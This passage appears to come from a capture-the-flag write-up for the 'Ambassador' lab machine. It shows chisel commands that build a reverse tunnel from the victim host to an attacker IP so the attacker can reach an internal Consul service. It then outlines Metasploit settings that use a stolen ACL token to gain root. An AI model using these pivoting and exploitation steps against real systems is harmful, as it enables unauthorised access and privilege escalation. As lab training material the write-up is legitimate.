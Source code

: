 On the local machine:
```
~/tools> ./chisel server -p 8080 --reverse
2022/10/24 22:58:49 server: Reverse tunnelling enabled
2022/10/24 22:58:49 server: Fingerprint ``tx4Ngv/UtweTvoIMDAuUoDe7G6BoF9m88xU+//DNXSM=
2022/10/24 22:58:49 server: Listening on http://0.0.0.0:8080
```
On the victim machine:
```
developer@ambassador:~/.tmp$ ./chisel client 10.10.16.45:8080 R:8500:127.0.0.1:8500
2022/10/24 19:05:36 client: Connecting to ws://10.10.16.45:8080
2022/10/24 19:05:38 client: Connected (Latency 130.006367ms)
```

Great, now we can access Consul at 127.0.0.1:8500.

Let's set the parameters for the pailoit in metasploit:
![media2](/ambassador/static_9.png)

Where **RHOSTS** and **RPORT** is the address to reach Consul, **ACL_TOKEN** is the previously found token, and **LHOST** and **LPORT** are the attacker's machine.

Run it and get the root.
![media2](/ambassador/static_10.png)
### Pwned.
